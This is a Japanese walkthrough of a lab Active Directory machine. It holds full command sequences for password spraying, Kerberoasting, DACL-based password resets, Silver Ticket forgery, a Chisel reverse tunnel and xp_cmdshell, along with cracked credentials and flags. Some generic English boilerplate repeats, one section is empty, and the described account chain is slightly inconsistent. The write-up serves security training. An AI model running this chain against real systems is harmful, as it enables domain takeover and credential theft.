

## 概要

| 項目 | 内容 |
|---------------------------|-------|
| OS | Windows (Server 2019) |
| 難易度 | Hard |
| 攻撃対象 | IIS Webアプリケーション、Active Directory、MSSQL (内部) |
| 主な侵入経路 | Webチームページからユーザー名列挙 -> パスワードスプレー -> Kerberoasting -> DACLチェーン -> WinRM |
| 権限昇格経路 | SYSVOL ResetPassword.exeデコンパイル -> Silver Ticket -> MSSQL sysadmin -> OPENROWSET proof.txt |

## 認証情報

```text
andrea.hayes        Nagoya2023          (パスワードスプレー)
svc_mssql           Service1            (Kerberoasting)
svc_helpdesk        U299iYRmikYTHDbPbxPoYYfa2j4x4cdg  (ResetPassword.exeデコンパイル)
svc_web             Service1            (Nagoya.dllデコンパイル)
```

## 偵察

---
💡 なぜ有効か
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
Open 192.168.198.21:53
Open 192.168.198.21:80
Open 192.168.198.21:88
Open 192.168.198.21:135
Open 192.168.198.21:389
Open 192.168.198.21:445
Open 192.168.198.21:5985
Open 192.168.198.21:9389
```

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Nagoya Industries - Nagoya
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: nagoya-industries.com)
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
```

SMB、RPC、LDAPはすべて匿名アクセス不可。ポート80のディレクトリ探索で `/Team` エンドポイントが見つかり、従業員名が露出していた:

```bash
feroxbuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt \
  -t 50 -r --timeout 3 --no-state -s 200,301,302,401,403 \
  -x php,html,txt -u http://$ip
```

```bash
200      GET      180l      258w     6896c http://192.168.198.21/Team
```

従業員名を抽出して `first.last` 形式のユーザー名リストを作成:

```bash
curl -s http://$ip/Team | grep -oP '<td>\K[^<]+' | paste - - | tee raw_names.txt
```

Kerbruteでドメインに対して28ユーザーが有効と確認:

```bash
kerbrute userenum -d nagoya-industries.com --dc $ip usernames_all.txt
```

```bash
[+] VALID USERNAME:  andrea.hayes@nagoya-industries.com
[+] VALID USERNAME:  christopher.lewis@nagoya-industries.com
[+] VALID USERNAME:  iain.white@nagoya-industries.com
... (合計28ユーザーが有効)
```

## 初期侵入

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

会社名を含む推測パスワードでスプレーしたところ、有効な認証情報を発見:

```bash
nxc smb $ip -u user.txt -p 'Nagoya2023' --continue-on-success
```

```bash
SMB  192.168.198.21  445  NAGOYA  [+] nagoya-industries.com\andrea.hayes:Nagoya2023
```

取得したアカウントでKerberoastingを実行し、2つのSPNアカウントを発見:

```bash
impacket-GetUserSPNs nagoya-industries.com/andrea.hayes:Nagoya2023 -dc-ip $ip -request
```

```bash
ServicePrincipalName                Name          MemberOf
----------------------------------  ------------  ------------------------------------------------
http/nagoya.nagoya-industries.com   svc_helpdesk  CN=helpdesk,CN=Users,DC=nagoya-industries,DC=com
MSSQL/nagoya.nagoya-industries.com  svc_mssql
```

Johnで `svc_mssql` のTGSハッシュをクラック:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```bash
Service1         (?)
```

BloodHound分析でDACL悪用チェーンを発見:
1. `andrea.hayes` (employees OU) -> GenericAll -> `Iain.White` (helpdesk OU)
2. `Iain.White` (helpdesk) -> GenericAll -> `Christopher.Lewis` (employees OU, developersグループ)
3. `Christopher.Lewis` (developers = Remote Management Users) -> WinRMシェル

bloodyADでパスワード変更:

```bash
bloodyAD -d nagoya-industries.com -u 'andrea.hayes' -p 'Nagoya2023' \
  --host $ip set password 'SVC_HELPDESK' 'Password123'
```

```bash
[+] Password changed successfully!
```

```bash
bloodyAD -d nagoya-industries.com -u 'SVC_HELPDESK' -p 'Password123' \
  --host $ip set password 'CHRISTOPHER.LEWIS' 'Password123'
```

```bash
[+] Password changed successfully!
```

WinRMシェル取得:

```bash
evil-winrm -i $ip -u Christopher.Lewis -p Password123
```

```bash
*Evil-WinRM* PS C:\Users\Christopher.Lewis\Documents>
```

```bash
*Evil-WinRM* PS C:\> type local.txt
e45c15c9180cfc730a8f16343af65420
```

💡 なぜ有効か
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## 権限昇格

---
SYSVOL共有のscriptsディレクトリに `ResetPassword.exe` が存在。`ilspycmd` でデコンパイルするとハードコードされた認証情報が見つかった:

```bash
smbclient //192.168.198.21/SYSVOL -U "andrea.hayes" \
  --password="Nagoya2023" -W nagoya-industries.com -c "recurse; ls"
```

```bash
\nagoya-industries.com\scripts\ResetPassword
  ResetPassword.exe                   A     5120  Mon May  1 02:04:02 2023
  ResetPassword.exe.config            A      189  Mon May  1 01:53:50 2023
```

```bash
ilspycmd ResetPassword.exe
```

```csharp
private static string service_username = "svc_helpdesk";
private static string service_Password = "U299iYRmikYTHDbPbxPoYYfa2j4x4cdg";
```

WebアプリケーションのDLL (`Nagoya.dll`) もデコンパイルし、別の認証情報を発見:

```bash
ilspycmd Nagoya.dll | grep -A5 "PrincipalContext"
```

```csharp
PrincipalContext val = new PrincipalContext((ContextType)1, "nagoya-industries.com", "svc_web", "Service1");
```

WinPEASでMSSQLがlocalhost:1433でリッスンしていることを発見 (外部非公開):

```bash
Protocol   Local Address         Local Port    Remote Address        Remote Port     State
TCP        0.0.0.0               1433          0.0.0.0               0               Listening
```

Silver Ticketを偽造してMSSQLサービスでAdministratorを偽装。まず `svc_mssql` のNTLMハッシュを算出しドメインSIDを取得:

```bash
python3 -c "import hashlib; print(hashlib.new('md4','Service1'.encode('utf-16le')).hexdigest())"
# e3a0168bc21cfb88b95c954a5b18f57c
```

```bash
impacket-lookupsid nagoya-industries.com/andrea.hayes:Nagoya2023@$ip 0
# Domain SID is: S-1-5-21-1969309164-1513403977-1686805993
```

Silver Ticket偽造:

```bash
impacket-ticketer \
  -nthash e3a0168bc21cfb88b95c954a5b18f57c \
  -domain-sid S-1-5-21-1969309164-1513403977-1686805993 \
  -domain nagoya-industries.com \
  -spn MSSQL/nagoya.nagoya-industries.com \
  -user-id 500 \
  Administrator
```

```bash
[*] Saving ticket in Administrator.ccache
```

Chiselでターゲットから攻撃マシンへMSSQLをポートフォワード:

```bash
# Kali側
chisel server --reverse -p 8081

# ターゲット側
.\chisel.exe client 192.168.45.166:8081 R:1433:localhost:1433
```

Silver TicketでMSSQLにsysadminとして接続:

```bash
export KRB5CCNAME=Administrator.ccache
impacket-mssqlclient -k nagoya.nagoya-industries.com \
  -no-pass -target-ip 127.0.0.1 -port 1433
```

```bash
SQL (NAGOYA-IND\Administrator  dbo@master)> SELECT IS_SRVROLEMEMBER('sysadmin');
-- 1

SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami
nagoya-ind\svc_mssql

SQL> SELECT BulkColumn FROM OPENROWSET(BULK 'C:\Users\Administrator\Desktop\proof.txt', SINGLE_CLOB) AS x;
b'c8525550ec0226b4e1ef2f363d6c6636\r\n'
```

💡 なぜ有効か
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## まとめ・学んだこと

- 会社名を含むパスワード (例: `Nagoya2023`) はスプレー攻撃の一般的なターゲット — 強固なパスワードポリシーを適用すべき。
- DACLチェーン (OU間のGenericAll) を悪用して複数アカウントのパスワードをカスケード変更できる。
- SYSVOL内の.NET実行ファイルにハードコードされた認証情報が含まれていないか `ilspycmd` や `dnSpy` で必ずデコンパイルして確認する。
- Silver TicketはKDC検証を完全にバイパスする — サービスアカウントのパスワードが判明すれば、そのサービスに対して任意のユーザーを偽装可能。
- 内部専用のMSSQLインスタンスもポートフォワード (chisel) とSilver Ticket認証で攻略可能。

### Attack Flow

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。



## 参考文献

- Kerbrute: https://github.com/ropnop/kerbrute
- bloodyAD: https://github.com/CravateRouge/bloodyAD
- BloodHound: https://github.com/SpecterOps/BloodHound
- ILSpy / ilspycmd: https://github.com/icsharpcode/ILSpy
- Silver Ticket: https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/silver-ticket.html
- Chisel: https://github.com/jpillora/chisel
- Impacket: https://github.com/fortra/impacket
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
